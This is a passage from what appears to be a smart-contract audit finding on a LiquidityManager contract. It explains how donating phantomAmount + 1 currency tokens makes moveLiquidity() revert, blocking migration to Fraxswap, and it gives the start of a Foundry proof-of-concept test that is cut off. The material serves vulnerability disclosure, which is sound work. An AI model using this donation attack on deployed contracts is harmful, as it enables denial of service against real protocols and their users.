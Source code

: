 ```js
        );
        bootstrapPool.kill();

        // Determine liquidity amount to add
@--->   uint256 currencyAmount = currencyToken.balanceOf(address(this));
@--->   uint256 liquidityAmount = (currencyAmount * 1e18) / price;

        // Add liquidity to Fraxswap
@--->   IFraxswapPair fraxswapPair = addLiquidityToFraxswap(liquidityAmount, currencyAmount);

        // Send all remaining tokens to the agent.
        agentToken.safeTransfer(address(agent), agentToken.balanceOf(address(this)));
        currencyToken.safeTransfer(address(agent), currencyToken.balanceOf(address(this)));
        emit LiquidityMoved(agent, address(agentToken), address(fraxswapPair));

        AgentFactory(owner).setAgentStage(agent, 1);
    }
```

The `currencyToken.balanceOf(address(this))` is actually equal to what used to be the bootstrap pool's `currencyToken` reserves minus the `phantomAmount`. And the `LiquidityManager` contract currently holds all the `agentToken` reserves which was present in the bootstrap pool. Hence this attack is now possible:
- Donate `phantomAmount + 1` of currencyTokens to `LiquidityManager.sol`. This will result in `liquidityAmount` to be greater than `LiquidityManager.sol`'s agentToken balance and hence transfer to Fraxswap will revert [here](https://github.com/code-423n4/2025-01-iq-ai/blob/main/src/LiquidityManager.sol#L141). 

## Impact
The revert of `moveLiquidity()` can only be avoided now if the bootstrap pool's price mechanics causes `price` to rise high enough such that `liquidityAmount` becomes less than the agentToken balance. This is not easy to artificially attain in a natural market driven AMM, hence this causes a significant DoS/griefing of the pool migration process. Although at first glance it seems that the attack has a cost with no apparent immediate gains, what the attacker has achieved is to force the bootstrap pool to migrate ONLY after a certain `price` has reached and not simply rely on the `targetCCYLiquidity` threshold. The impact on the protocol is high.

## Proof of Concept
Add this test inside `test/MoveLiquidityTest.sol` and run to see it pass:
```js
    function test_moveLiquidity_DoS_bug() public {
        setUpFraxtal(12_918_968);
        address whale = 0x00160baF84b3D2014837cc12e838ea399f8b8478;
        factory = new AgentFactory(currencyToken, 0);
        factory.setAgentBytecode(type(Agent).creationCode);
        factory.setGovenerBytecode(type(TokenGovernor).creationCode);
        factory.setLiquidityManagerBytecode(type(LiquidityManager).creationCode);
        factory.setTargetCCYLiquidity(0); // for testing
        factory.setInitialPrice(0.1e18);
        factory.setMintToAgent(1000); //10%
        vm.startPrank(whale);
        currencyToken.approve(address(factory), 1e18);
        agent = factory.createAgent("AIAgent", "AIA", "https://example.com", 0);
        token = agent.token();
        manager = LiquidityManager(factory.agentManager(address(agent)));
        bootstrapPool = manager.bootstrapPool();
        currencyToken.approve(address(bootstrapPool), 10_000_000e18);

        // Execute buy
        bootstrapPool.buy(1e18);

        // Case1: Successfully move the liquidity from the bootstrap pool to Fraxswap
```